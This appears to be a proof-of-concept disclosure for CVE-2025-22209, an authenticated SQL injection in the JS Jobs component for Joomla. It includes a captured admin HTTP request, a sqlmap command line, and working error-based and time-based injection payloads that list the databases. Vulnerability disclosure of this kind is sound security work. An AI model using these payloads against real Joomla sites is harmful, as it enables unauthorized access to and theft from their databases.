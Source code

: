 # CVE-2025-22209: SQL injection in JS jobs component version 1.1.5 - 1.4.3 for Joomla

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22209

**JS Jobs:** https://joomsky.com/js-jobs-joomla

## Introduction
A SQL injection vulnerability in the JS Jobs plugin versions 1.1.5-1.4.3 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands via the 'searchpaymentstatus' parameter in the Employer Payment History search feature.

## POC
To exploit this vulnerability go to 'Dashboard >> Payments >> Employer History >> Employer Payment History >> Title: test >> Employee Name: test >> Price: test >> Search' and capture the search request. Save the request to a file (req.txt) and run sqlmap through the file to exploit the vulnerable parameter (searchpaymentstatus).

![Alt text](3.png)

**HTTP Request:**
```
POST /administrator/index.php HTTP/1.1
Host: localhost:8080
Content-Length: 209
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; 3fe7c6c5dfe0b5f6afb4c9fb2fa76e2d=68e067f4856a257ca2442db063e4bcc1; fc10f92369cf23c8bddb3e364e3c0e59=3e7941ea2adf0d5092218a8dd72872e1
Connection: keep-alive

searchtitle=test&searchempname=test&searchprice=test&searchpaymentstatus=&searchdatestart=&searchdateend=&option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory&task=&boxchecked=0
```

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap/sqlmap.py -r ~/req.txt --batch --dbs -p searchpaymentstatus

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: searchpaymentstatus (POST)
    Type: error-based
    Title: MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)
    Payload: searchtitle=test&searchempname=test&searchprice=test&searchpaymentstatus=GTID_SUBSET(CONCAT(0x7178767a71,(SELECT (ELT(3784=3784,1))),0x7176706b71),3784)&searchdatestart=&searchdateend=&option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory&task=&boxchecked=0

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: searchtitle=test&searchempname=test&searchprice=test&searchpaymentstatus=(SELECT 2450 FROM (SELECT(SLEEP(5)))mdKf)&searchdatestart=&searchdateend=&option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory&task=&boxchecked=0
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
